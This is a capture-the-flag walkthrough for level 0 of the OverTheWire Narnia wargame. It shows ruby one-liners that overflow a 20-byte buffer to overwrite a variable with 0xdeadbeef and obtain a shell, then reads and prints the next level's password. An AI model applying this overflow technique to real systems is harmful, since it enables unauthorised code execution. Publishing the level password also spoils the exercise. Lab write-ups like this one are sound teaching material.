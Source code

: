 ssh narnia0@narnia.labs.overthewire.org -p 2226

Level 0:
u: narnia0
p: narnia0

Looking at the source code for "/narnia/narnia0.c" we see that we have two variables.
`val` stores "0x41414141" and `buf` is allocated 20 characters.
The program then reads our input into `buf` but allows for 24 characters.
Those extra four characters should be enough to override `val`

This is a basic example of a buffer overflow. So if we run the below script:

ruby -e 'puts "A"*20 + "BBBB"' | ./narnia0

We see that `val` was successfuly overwritten. Now we need to put "Oxdeadbeef" into val instead of just four Bs.

ruby -e 'puts "A"*20 + "\xde\xad\xbe\xef"' | ./narnia0

Strange... our input is reversed. Thats because the memory is little-endian and stores things backwards. Lets tweak our script

ruby -e 'puts "A"*20 + "\xef\xbe\xad\xde"' | ./narnia0

So we got `val` to correctly be "0xdeadbeef" but the program just terminated. Looking back at the source code, we were supposed to get a shell.
Well the program successfully ran and then the shell closed immediately.
We need a way to keep the shell open.

(ruby -e 'puts "A"*20 + "\xef\xbe\xad\xde"'; cat) | ./narnia0

Perfect. We got a shell as narnia1!

cat /etc/narnia_pass/narnia1

The password for narnia1 is efeidiedae

Level 1:
u: narnia1
p: efeidiedae
